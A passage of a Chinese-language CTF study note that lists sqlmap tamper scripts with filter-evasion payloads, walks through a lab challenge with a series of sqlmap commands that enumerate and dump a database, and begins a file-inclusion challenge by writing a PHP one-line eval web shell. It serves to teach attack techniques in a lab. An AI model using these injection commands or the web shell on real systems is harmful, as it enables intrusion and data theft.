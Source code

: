     **appendnullbyte.py**
    适用数据库：ALL
    作用：在有效载荷的结束位置加载null字节字符编码
    使用脚本前：tamper('1 AND 1=1')
    使用脚本后：1 AND 1=1%00

    **randomcomments.py**
    适用数据库：ALL
    作用：用注释符分割sql关键字
    使用脚本前：tamper('INSERT')
    使用脚本后：I/**/N/**/SERT


### 实例1 [SchoolBus - SQL injection](https://zjusec.com/challenges/16)

打开网站，发现是一个问答的网站，非常明显的sql注入点
![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/Tools__Software__assets__SQL.assets__20240801183459.webp)

因为提示了检测空格，所以使用了tamper的space2comment.py

```shell
## 查看用户
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-user --tamper space2randomblank.py
## 查看数据库
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-db --tamper space2randomblank.py
## 查看表
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-db --tamper space2randomblank.py -D aaa_web2 --tables
## 查看列
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-db --tamper space2randomblank.py -D aaa_web2 -T flag_is_here --columns
## 查看字段
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-db --tamper space2randomblank.py -D aaa_web2 -T flag_is_here -C "flag" --dump
```
使用上面的语句可以一步步使用sqlmap获取flag

![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/Tools__Software__assets__SQL.assets__cc3a0a22acb55bd08b8eed78d0c2d20.webp)

### 实例2 [SchoolBus - php include 文件注入](http://10.214.160.13:10001/index.php?f=upload.php)

> 拓展链接 
> - [技术剖析中国菜刀原理](https://blog.csdn.net/JackLiu16/article/details/79418652)
> - [PHP文件包含漏洞全面总结 - Zeker62 - 博客园](https://www.cnblogs.com/Zeker62/p/15322771.html)
> - [Kali linux菜刀(weevely3)](https://blog.csdn.net/weixin_41489908/article/details/115875988) 这个最后没用到

打开网站是一个上传文件的页面，上传文件之后会显示文件文件名
![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/Tools__Software__assets__SQL.assets__20240801182113.webp)

提示构造一句话木马，所以写了一个php文件
```php
<?php @eval($_GET['123']); ?>
```
但是直接上传会被过滤，所以不能直接上传后缀名为php的文件。尝试上传了一张jpg图片，发现是可以的。
